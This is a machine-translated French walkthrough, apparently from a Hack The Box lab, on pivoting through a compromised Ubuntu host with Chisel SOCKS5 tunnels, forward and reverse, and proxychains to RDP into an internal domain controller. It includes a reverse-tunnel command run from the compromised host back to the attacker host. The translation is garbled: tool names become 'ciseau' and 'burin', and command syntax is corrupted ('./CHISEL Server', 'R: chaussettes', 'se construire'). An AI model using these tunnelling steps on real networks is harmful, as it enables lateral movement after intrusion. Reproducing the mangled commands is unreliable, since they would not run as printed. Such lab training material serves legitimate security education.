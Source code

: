 Socks5 tunnels avec chisel
===========================.

* * * * *

[Chisel] (https://github.com/jpillora/chisel) est un outil de tunneling basé sur TCP / UDP écrit dans [Go] (https://go.dev/) qui utilise HTTP pour transporter des données sécurisées en utilisant SSH. «Chisel» peut créer une connexion du tunnel client-serveur dans un environnement restreint du pare-feu. Considérons un scénario où nous devons tuer notre trafic vers un serveur Web sur le réseau `172.16.5.0` /` 23` (réseau interne). Nous avons le contrôleur de domaine avec l'adresse `172.16.5.19`. Ce n'est pas directement accessible à notre hôte d'attaque car notre hôte d'attaque et le contrôleur de domaine appartiennent à différents segments de réseau. Cependant, puisque nous avons compromis le serveur Ubuntu, nous pouvons démarrer un serveur Chisel dessus qui écoutera sur un port spécifique et transférer notre trafic vers le réseau interne via le tunnel établi.

Configuration et utilisation du ciseau
-------------------------

Avant de pouvoir utiliser Chisel, nous devons l'avoir sur notre hôte d'attaque. Si nous n'avons pas de ciselier sur notre hôte d'attaque, nous pouvons cloner le repo du projet en utilisant la commande directement ci-dessous:

#### Cloning Chisel

Ciseau de clonage

`` '
dsgsec @ htb [/ htb] $ git clone https://github.com/jpillora/chisel.git

`` '

Nous aurons besoin du langage de programmation «GO» installé sur notre système pour construire le ciseau binaire. Avec GO installé sur le système, nous pouvons nous déplacer dans ce répertoire et utiliser «Go Build» pour construire le ciseau binaire.

#### Construire le burin binaire

Construire le ciseau binaire

`` '
DSGSEC @ HTB [/ HTB] $ CD CHISEL
se construire

`` '

Il peut être utile d'être conscient de la taille des fichiers que nous transférons sur des cibles sur les réseaux de notre client, non seulement pour des raisons de performances, mais aussi en considérant la détection. Deux ressources bénéfiques pour compléter ce concept particulier sont le billet de blog de l'OXDF "[tunneling avec Chisel et SSF] (https://0xdf.gitlab.io/2020/08/10/tunnel-with-chisel-and-ssf-pdate.html ) "Et la procédure pas à pas de la boîte d'Ippsec« rougeâtre ». IppSec commence son explication de Chisel, construisant le binaire et rétrécissant la taille du binaire à la marque 24:29 de sa [vidéo] (https://www.youtube.com/watch?v=yp4Oxoqibam&t=1469s).

Une fois le binaire construit, nous pouvons utiliser «SCP» pour le transférer à l'hôte pivot cible.

#### Transfert de bulleau binaire à Host Pivot

Transfert de ciselier binaire à Host Pivot

`` '
dsgsec @ htb [/ htb] $ SCP Chisel ubuntu@10.129.202.64: ~ /

ubuntu@10.129.202.64's mot de passe:
ciseau 100% 11 Mo 1,2 Mo / s 00:09

`` '

Ensuite, nous pouvons démarrer le serveur / écouteur Chisel.

#### exécuter le serveur Chisel sur l'hôte pivot

Exécution du serveur Chisel sur l'hôte Pivot

`` '
ubuntu @ web01: ~ $ ./CHISEL Server -v -p 1234 - Socks5

2022/05/05 18:16:25 Serveur: empreinte digitale Viry7wryvjiopvedzsi2piuivtu9qehww9tza3zspac =
2022/05/05 18:16:25 Serveur: Écoute sur http://0.0.0.0:1234

`` '

L'auditeur Chisel écoutera les connexions entrantes sur le port `1234` à l'aide de socks5 (` --socks5`) et le transfèrent à tous les réseaux accessibles à partir de l'hôte pivot. Dans notre cas, l'hôte Pivot a une interface sur le réseau 172.16.5.0/23, qui nous permettra d'atteindre les hôtes sur ce réseau.

Nous pouvons démarrer un client sur notre hôte d'attaque et nous connecter au serveur Chisel.

#### Connexion au serveur Chisel

Connexion au serveur Chisel

```
dsgsec @ htb [/ htb] $ ./CHISEL Client -v 10.129.202.64:1234 Chaussettes

2022/05/05 14:21:18 Client: Connexion à WS: //10.129.202.64: 1234
2022/05/05 14:21:18 Client: Tun: Proxy # 127.0.0.1: 1080 => Chaussettes: Écoute
2022/05/05 14:21:18 Client: TUN: Proxies liés
2022/05/05 14:21:19 Client: Treat à main ...
2022/05/05 14:21:19 Client: Envoi de configuration
2022/05/05 14:21:19 Client: connecté (latence 120.170822ms)
2022/05/05 14:21:19 Client: Tun: SSH Connected

```

Comme vous pouvez le voir dans la sortie ci-dessus, le client Chisel a créé un tunnel TCP / UDP via HTTP sécurisé à l'aide de SSH entre le serveur Chisel et le client et a commencé à écouter sur le port 1080. Nous pouvons désormais modifier notre fichier proxychains.conf situé sur `/ etc / proxychains.conf` et ajouter le port` 1080` à la fin afin que nous puissions utiliser ProxyChains pour pivoter en utilisant le tunnel créé entre le port 1080 et le tunnel SSH.

#### Édition et confirmation proxychains.conf

Nous pouvons utiliser n'importe quel éditeur de texte que nous aimerions modifier le fichier proxychains.conf, puis confirmer nos modifications de configuration à l'aide de «Tail».

Édition et confirmation proxychains.conf

```
dsgsec @ htb [/ htb] $ tail -f /etc/proxychains.conf

#
# Types de proxy: HTTP, SOCKS4, SOCKS5
# (types d'authers pris en charge: "basique" -http "utilisateur / pass" -socks)
#
[Proxylist]
# Ajouter un proxy ici ...
# Meanwile
# par défaut défini sur "tor"
# chaussettes4 127.0.0.1 9050
chaussettes5 127.0.0.1 1080

```

Maintenant, si nous utilisons ProxyChains avec RDP, nous pouvons nous connecter au DC sur le réseau interne via le tunnel que nous avons créé pour l'hôte Pivot.

#### pivotant au DC

Pivotant au DC

```
dsgsec @ htb [/ htb] $ proxychains xfreerdp /v:172.16.5.19 / u: Victor / p: pass @ 123

```

* * * * *

Pivot inversé ciselier
--------------------

Dans l'exemple précédent, nous SED LA MACHINE COMPROMISÉ (UBUNTU) comme serveur Chisel, inscrivant sur le port 1234. Pourtant, il peut y avoir des scénarios où les règles de pare-feu restreignent les connexions entrantes à notre cible compromise. Dans de tels cas, nous pouvons utiliser le burin avec l'option inverse.

Lorsque le serveur Chisel a activé `` --reverse ', les télécommandes peuvent être préfixées avec `r` pour indiquer inversé. Le serveur écoutera et acceptera les connexions, et ils seront proxés via le client, qui a spécifié la télécommande. Remotes inverses spécifiant `R: Socks` écoutera le port de Socks par défaut du serveur (1080) et terminera la connexion au proxy SOCKS5 interne du client.

Nous démarrerons le serveur dans notre hôte d'attaque avec l'option `--reverse`.

#### Démarrage du serveur Chisel sur notre hôte d'attaque

Démarrage du serveur Chisel sur notre hôte d'attaque

```
dsgsec @ htb [/ htb] $ sudo ./CHISEL Server --reverse -v -p 1234 - Socks5

2022/05/30 10:19:16 Serveur: tunneling inversé activé
2022/05/30 10:19:16 Serveur: empreinte digitale N6ufn6zv4f + MLB8WV3X25557W / GHQMRGGENN15Q9XIK =
2022/05/30 10:19:16 Serveur: Écoute sur http://0.0.0.0:1234

```

Ensuite, nous nous connectons à partir de l'Ubuntu (hôte pivot) à notre hôte d'attaque, en utilisant l'option `r: socks`

Démarrage du serveur Chisel sur notre hôte d'attaque

```
Ubuntu @ web01 $ ./CHISEL Client -v 10.10.14.17:1234 R: chaussettes

2022/05/30 14:19:29 Client: Connexion à ws: //10.10.14.17: 1234
2022/05/30 14:19:29 Client: Treat à main ...
2022/05/30 14:19:30 Client: Envoi de configuration
2022/05/30 14:19:30 Client: Connecté (latence 117.204196ms)
2022/05/30 14:19:30 Client: Tun: SSH Connected

```

Nous pouvons utiliser n'importe quel éditeur que nous aimerions modifier le fichier proxychains.conf, puis confirmer nos modifications de configuration à l'aide de «Tail».

#### Édition et confirmation proxychains.conf

Édition et confirmation proxychains.conf

```
dsgsec @ htb [/ htb] $ tail -f /etc/proxychains.conf

[Proxylist]
# Ajouter un proxy ici ...
# chaussettes4 127.0.0.1 9050
chaussettes5 127.0.0.1 1080

```

Si nous utilisons des proxychaines avec RDP, nous pouvons nous connecter au DC sur le réseau interne via le tunnel que nous avons créé pour l'hôte pivot.

Édition et confirmation proxychains.conf

```
dsgsec @ htb [/ htb] $ proxychains xfreerdp /v:172.16.5.19 / u: Victor / p: pass @ 123

```